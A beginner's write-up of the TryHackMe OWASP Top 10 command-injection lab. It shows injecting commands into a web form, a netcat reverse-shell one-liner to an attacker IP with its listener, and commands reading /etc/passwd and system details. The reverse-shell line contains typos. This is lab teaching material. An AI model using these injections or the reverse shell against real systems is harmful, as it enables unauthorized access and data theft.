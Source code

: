 ﻿# Write-Up for OWASP top 10 - tryhackme 

## [day 1] command injection practical

Hi Guys!
This is my very first Walkthrough/Write-Up. that will be in [OWASP Top 10](https://tryhackme.com/room/owasp10#) from [tryhackme](https://tryhackme.com) which is designed for the beginners in cyber security or who is interesting in pentesting I hope you find it useful 


#### [What strange text file is in the website root directory](#1-What-strange-text-file-is-in-the-website-root-directory)
#### [How many non-root/non-service/non-daemon user are there?](#-How-many-non-root/non-service/non-daemon-users-are-there?)
#### [what user is this app running as?](#3)
#### [what is the user's shell set as?](#4)
#### [what version of Ubuntu is running?](#5)
#### [print out the MOTD. what favorite beverage is shown](#6)

by entering the website associated with the IP, we will have a directory search page asking the user to enter a user by entering a random user the page will give an error message 

![error](imgs/eroor.PNG)



but if i enter "root" the page will print a message with success

![suess](imgs/success.PNG)



so now i will try yo inject it with a username and  command "root;ls"

![test1](imgs/test1.PNG)


the message was success but with no output of the command this could indicate for a blind injection or the server is not vulnerable to command injection let's try in the recommended page < machine IP >/evilshell.php, this page ask the user to enter an command so let's try ls again without the username 

![#1](imgs/1.PNG)


the output of the command will appear under the **"submit"** button so now we can start here 

you can present the output of the command in two ways one is in the web page but it will be out of order so we can upload revers shell and connected using netcat 
the command to upload the revers shell 
>rm /tmp/f;mkfifo /tmp/f;cat /tp/f|bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

make sure to change the IP and run this command in your terminal to listen 
> nc -lvnp 1234 

to see more ways to revers shell [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/revers-shell-cheat-sheet)
refresh the page and check your terminal you can execute the same command down there   
###  #1 What strange text file is in the website root directory
we start by showing the files by 
>ls 

maybe it seems to be normal to see  file extensions like (.doc, .txt, .pdf ,etc) on your PC but it is odd to see it in a web page, web page could have (css , .php extension , .js extension) 

![#1](imgs/1.PNG)


### #2 How many non-root/non-service/non-daemon users are there? 
by executing 
> cat /etc/passwd 

![#2i](imgs/2.PNG)


will print all the user and you can find out  by looking for user with login 
the users with nologin are the (root, services, daemon) users 

### #3 	What user is this app running as?
this one is a straight foreword  by executing
> whoami

![#3i](imgs/3.PNG)


the username will be printed 
### #4  What is the user's shell set as?
the answer of this question will be printed with question 2 with the command 
>cat /etc/passwd

![#4i](imgs/2.PNG)


### #5 What version of Ubuntu is running?
I tried the suggested command 
>uname -a 

![#5.1](imgs/5.1.PNG)


but it doesn't show the version of Ubuntu so i used 
>  lsb_release -a

![#5.2](imgs/5.2.PNG)


### #6 print out the MOTD. what favorite beverage is shown?
the MOTD stands for message of the day can be configured in the /etc directory but we want to print we have 13 message but the hint pointing to  00-header so let print it 
>cat /etc/update-motd.d/00-header 

in the end of the file the mention a type of drink 

![#6i](imgs/6.PNG)


thanks 


